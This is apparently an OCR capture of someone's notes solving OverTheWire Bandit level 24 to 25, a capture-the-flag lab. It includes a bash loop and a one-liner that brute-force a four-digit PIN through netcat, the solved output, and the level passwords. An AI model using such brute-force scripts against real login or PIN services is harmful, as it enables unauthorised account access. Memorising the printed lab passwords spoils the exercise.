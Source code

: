 ssh bandit24@bandit.labs.overthewire.org -p 2220  
  
\#\#\#\#\#\#\#  
  
\#!/bin/bash  
  
pass24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ  
  
  
for a in {0..9}{0..9}{0..9}{0..9}  
do  
 echo "Attempting PIN: $a"  
  
 attempt="$\(echo $pass24 $a \| nc localhost 30002\)"  
  
 if ! \[\[ $attempt == \*"Wrong!"\* \]\]; then  
  
 echo -ne "$attempt"  
  
 break  
  
 fi  
done  
  
\#\#\#\#\#\#  
  
echo "" &gt; pins && for i in {0000..9999}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i &gt;&gt; pins; done && cat pins \| nc localhost 30002  
  
  
\#\#\#\#\#\#  
  
Exiting.bandit24@bandit:/tmp/pvieira24$ nc localhost 30002  
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 5440  
Correct!  
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG  
  
Exiting.  
  
  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\# Bandit25 \#\#\#\#\#\#\#\#\#\#\#\#\#\#  
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#  
  
ssh bandit25@bandit.labs.overthewire.org -p 2220  
  
  
  
  
  
  
  


